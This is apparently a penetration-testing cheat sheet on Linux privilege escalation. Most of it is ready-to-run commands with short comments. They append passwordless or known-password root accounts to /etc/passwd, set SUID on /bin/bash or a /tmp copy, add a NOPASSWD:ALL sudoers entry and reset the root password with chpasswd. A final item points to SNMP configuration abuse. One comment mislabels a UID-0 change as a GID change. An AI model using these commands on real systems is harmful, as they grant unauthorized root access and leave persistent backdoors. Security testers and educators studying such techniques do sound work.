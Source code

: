 ## **Writing to Shadow/Passwd File**

```bash
echo "root2::0:0:root:/root:/bin/bash" >> /etc/passwd # Setting no password for user root2 to login as root
# or
openssl passwd banana
# replace x with hash or create a correct format
echo "root2:$1$ORXgPu49$zUxuMoaybWABa2bhFnIpz0:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2 # Enter the password

# Setting SUID for /bin/bash (if chmod can be run as root)
/usr/bin/chmod +s /bin/bash
# Try to reboot the machine
/bin/bash -p
```

## **Escalation Methods**

```bash
# Copy /bin/bash to /tmp/rootbash and set SUID
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
/tmp/rootbash -p

# Modify /etc/sudoers
nano /etc/sudoers
# Add the following line to allow the user to run any command without a password
user ALL=(ALL) NOPASSWD:ALL

# Modify /etc/passwd to change GID to root
nano /etc/passwd
# Change GID of the user to root
echo "exploit:YZE7YPhZJyUks:0:0:root:/root:/bin/bash" >> /etc/passwd
su - exploit

# Change root password using chpasswd
echo root:gl0b0 | /usr/sbin/chpasswd
```

## **SNMP Exploitation**

- Check if **`snmpd`** is running as root and **`/etc/snmp/snmpd.conf`** is writable.
- Refer to [https://rioru.github.io/pentest/web/2017/03/28/from-unauthenticated-to-root-supervision.html](https://rioru.github.io/pentest/web/2017/03/28/from-unauthenticated-to-root-supervision.html) for further details.
